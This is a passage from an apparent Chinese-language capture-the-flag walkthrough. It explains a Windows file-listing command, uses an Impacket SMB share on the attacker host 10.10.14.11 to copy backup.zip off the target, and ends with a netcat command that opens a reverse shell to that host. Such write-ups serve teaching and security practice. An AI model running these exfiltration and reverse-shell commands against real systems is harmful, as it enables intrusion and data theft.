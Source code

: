 > dir: 这个命令用于列出指定目录下的文件和子目录。
> 
> /s: 这个选项告诉 dir 命令**递归地搜索子目录**。
> 
> /b: 这个选项告诉 dir 命令**只输出文件名或目录名**，不显示任何其他信息。
> 
> /a:-d-h: 这个选项告诉 dir 命令**只列出非隐藏的文件和非隐藏的目录**。-d 表示仅列出目录，-h 表示仅列出非隐藏的文件。
> 
> \Users\alfred: 这是指定的目录路径，表示要在 C:\Users\alfred 目录下进行搜索。
> 
> |: 这是管道符号，用于将一个命令的输出传递给另一个命令。
> 
> findstr: 这个命令用于搜索字符串。
> 
> /i: 这个选项告诉 findstr 命令在搜索时**不区分大小写**。
> 
> /v: 这个选项告诉 findstr 命令**显示不匹配的行**。
> 
> "appdata": 这是要搜索的字符串，findstr 将排除包含此字符串的行。
> 
> 在 C:\Users\alfred 目录及其所有子目录中，列出所有非隐藏文件和目录的绝对路径，但不包括隐藏的文件和目录，同时排除包含字符串 "appdata" 的行。

发现 backup.zip，我们需要将其下载到本地。

```
C:\>net use \\10.10.14.11\share
System error 1272 has occurred.

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network. 
```

借助 smbserver 来建立 smb 共享，同时设置账号密码，否则无法连接.

```
python3 smbserver.py -smb2support -username mac -password mac share .
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

> smbserver.py:Impacket中的一个工具。
> 
> lmpacket教程：https://cloud.tencent.com/developer/article/1937036
> 
> Impacket是用于处理网络协议的Python类的集合，用于对SMB1-3或IPv4 / IPv6 上的TCP、UDP、ICMP、IGMP，ARP，IPv4，IPv6，SMB，MSRPC，NTLM，Kerberos，WMI，LDAP等协议进行低级编程访问。数据包可以从头开始构建，也可以从原始数据中解析，而面向对象的API使处理协议的深层次结构变得简单。
> 
> smbserver.py：SMB服务器的Python实现，允许快速设置共享和用户帐户。


[localhost]: PS C:\Users\Batman\Documents> whoami
[localhost]: PS C:\Users\Batman\Documents> \windows\System32\spool\drivers\color\n.exe -e cmd 10.10.14.11 443 